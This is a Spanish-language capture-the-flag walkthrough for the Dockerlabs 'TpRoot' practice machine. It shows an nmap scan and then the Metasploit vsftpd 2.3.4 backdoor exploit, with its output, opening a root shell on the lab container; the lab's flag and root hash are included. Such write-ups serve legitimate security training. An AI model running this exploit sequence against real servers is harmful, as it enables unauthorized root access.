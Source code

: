 ```yaml
---
icon: flag
---
```


# CTF TpRoot Very Easy

URL Download CTF = [https://drive.google.com/file/d/1ns-X5QMou4ZUCa3vINCW6fBcePI3lRtc/view?usp=sharing](https://drive.google.com/file/d/1ns-X5QMou4ZUCa3vINCW6fBcePI3lRtc/view?usp=sharing)

### Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip tproot.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_run.sh tproot.tar
```

Info:

```
██████╗ ██╗    ██╗███╗   ██╗██████╗ ██████╗ ██╗
██╔══██╗██║    ██║████╗  ██║╚════██╗██╔══██╗██║
██████╔╝██║ █╗ ██║██╔██╗ ██║ █████╔╝██║  ██║██║
██╔═══╝ ██║███╗██║██║╚██╗██║ ╚═══██╗██║  ██║╚═╝
██║     ╚███╔███╔╝██║ ╚████║██████╔╝██████╔╝██╗
╚═╝      ╚══╝╚══╝ ╚═╝  ╚═══╝╚═════╝ ╚═════╝ ╚═╝

          ==                           
         @+:@ @##@                     
          @++:-----+@ @@#+:----:+#     
           #-+-----:+:---------:       
            *::-----++-----::::#       
             ::------+:--------:       
             #-+------+:-::-----#@     
              *::+=@@#++-------::@     
              @+=     @++::+#@@@#*#    
               #-@                     
                *+#++@                 
               +-:::+-@                
               :-:+:::+                
              @+::*::::                
             *::++-::*                 
          =:--:-:++ @-#                
      #*:---:--++@   @@                
      @::-:--++*                       
       @::-:++#                        
         *++*                          

 :: Plataforma de máquinas vulnerables ::
 :: Desarrollado por Pwn3d! y Dockerlabs - creado por @d1se0 ::

 █▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀█
 █           FLAG{Pwn3d!_is_awesome!}            █
 █▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄█


[✔] bc ya está instalado.

[✔] Docker ya está instalado
[!] Limpiando previos contenedores e imágenes
[✔] Cargando la máquina virtual      
[✔] Activando máquina virtual      

[✔] Máquina activa. Dirección IP: 172.17.0.2
[!] Presiona Ctrl+C para limpiar y salir
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

### Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-03 05:40 EST
Nmap scan report for 172.17.0.3
Host is up (0.000047s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
|_ftp-anon: got code 500 "OOPS: cannot change directory:/var/ftp".
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 02:42:AC:11:00:03 (Unknown)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.50 seconds
```

Vemos que tenemos un `ftp` y un `apache2`, pero en la pagina web de `apache2` es la que viene por defecto y no veremos nada interesante, si investigamos mas el `ftp` veremos que tiene la version `vsftpd 2.3.4` la cual puede ser vulnerable a un `exploit` vamos a ver si tiene algun `exploit` asociado a el.

## Escalate Privileges

### Metasploit

```shell
msfconsole -q
```

Una vez dentro vamos a buscarlo de la siguiente forma:

```shell
search vsftpd 2.3.4
```

Info:

```
Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/vsftpd_234_backdoor
```

Vemos que si tiene uno, vamos a utilizarlo y a configurarlo.

```shell
use exploit/unix/ftp/vsftpd_234_backdoor
```

Una vez seleccionado, vamos a configurarlo de la siguiente forma:

```shell
set RHOSTS <IP_VICTIM>
exploit
```

Info:

```
[*] 172.17.0.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 172.17.0.3:21 - USER: 331 Please specify the password.
[+] 172.17.0.3:21 - Backdoor service has been spawned, handling...
[+] 172.17.0.3:21 - UID: uid=0(root) gid=0(root) groups=0(root)
[*] Found shell.
[*] Command shell session 1 opened (172.17.0.1:36331 -> 172.17.0.3:6200) at 2025-02-03 05:46:07 -0500

whoami
root
```

Y como veremos hemos podido entrar mediante una `backdoor` al sistema como el usuario `root`, por lo que habremos terminado la maquina.

> root.txt

```
261fd3f32200f950f231816b4e9a0594
```
